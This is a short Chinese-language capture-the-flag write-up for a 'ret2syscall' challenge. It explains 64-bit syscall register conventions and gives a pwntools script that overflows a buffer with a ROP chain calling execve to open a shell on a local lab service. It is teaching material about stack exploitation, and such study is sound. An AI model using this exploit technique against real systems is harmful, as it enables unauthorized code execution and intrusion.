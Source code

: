 # ret2syscall

## 文件分析

下载`ret2syscall`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 逆向

摆明了随便打

## EXPLOIT

首先要知道64位syscall和32位syscall有什么差别:
(32位见[ctf-wiki](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#ret2syscall))  
64位syscall使用rax作为指令寄存器，这里我们使用execve  
然后execve的三个参数分别放在rdi, rsi, rdx三个寄存器中  
放好后执行syscall指令即可

```python
from pwn import *
sh = remote('localhost', 33359)
popRax = 0x40117e
callObj = 59 # execve
popRsiRdx = 0x401182
popRdi = 0x401180
shstr = 0x404040
syscall = 0x401185
sh.sendline(b'0'*0x48 + p64(popRax) + p64(callObj) + p64(popRsiRdx) + p64(0) + p64(0) + p64(popRdi) + p64(shstr) + p64(syscall))
sh.interactive()
```

Done.
